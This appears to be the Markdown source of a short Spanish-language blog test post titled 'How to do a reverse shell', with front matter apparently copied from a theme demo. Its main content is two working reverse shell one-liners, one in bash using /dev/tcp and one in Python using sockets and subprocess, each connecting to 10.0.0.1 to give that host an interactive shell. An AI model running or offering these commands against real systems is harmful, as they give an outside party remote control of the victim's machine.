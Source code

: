 ```yaml
---
title: hola
author: Cotes Chung
date: 2019-08-08 11:33:00 +0800
categories: [Blogging, Demo]
tags: [typography]
math: true
---
```


# How to do a reverse shell

## Paragraph

Esto es una prueba de hackaxione

## Tables
Tipos de reverse shell

|uno mu bueno|uno mu malo|
|:---|---:|
|Python | bash

## Link
Mas información en <http://adpego.com>


#### Shell

```shell
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Python

```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Grasia 
